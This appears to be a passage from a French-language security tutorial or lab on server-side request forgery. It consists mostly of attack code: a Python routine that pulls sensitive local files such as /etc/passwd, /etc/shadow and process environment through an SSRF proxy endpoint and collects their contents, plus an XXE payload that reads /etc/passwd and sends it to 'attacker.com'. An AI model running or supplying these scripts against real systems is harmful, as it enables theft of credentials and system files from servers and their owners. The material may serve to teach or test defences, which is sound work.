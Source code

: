 ```python
def guess_service(port):
    services = {
        22: "SSH",
        80: "HTTP",
        443: "HTTPS",
        3306: "MySQL",
        5432: "PostgreSQL",
        6379: "Redis",
        8080: "HTTP-Alt",
        9200: "Elasticsearch"
    }
    return services.get(port, "Unknown")
```

### Scénario 3 : Lecture de fichiers locaux
```python
def read_local_files(base_url):
    """Tente de lire des fichiers locaux via SSRF"""
    sensitive_files = [
        "file:///etc/passwd",
        "file:///etc/shadow",
        "file:///etc/hosts",
        "file:///proc/self/environ",
        "file:///var/log/apache2/access.log",
        "file://C:/Windows/System32/drivers/etc/hosts",
        "file://C:/Windows/win.ini"
    ]
    
    results = {}
    
    for file_url in sensitive_files:
        try:
            response = requests.get(
                f"{base_url}/api/ssrf/proxy",
                params={"url": file_url}
            )
            
            if response.status_code == 200:
                results[file_url] = response.text
                print(f"✓ Fichier lu: {file_url}")
            else:
                print(f"✗ Échec: {file_url}")
        except:
            pass
    
    return results
```

### Scénario 4 : Exploitation via XXE
```xml
<!-- Payload XXE pour exfiltrer des fichiers -->
<!DOCTYPE feed [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
  <!ENTITY exfil SYSTEM "http://attacker.com/exfil?data=&xxe;">
]>
<rss version="2.0">
  <channel>
    <title>&xxe;</title>
    <link>&exfil;</link>
  </channel>
</rss>
```
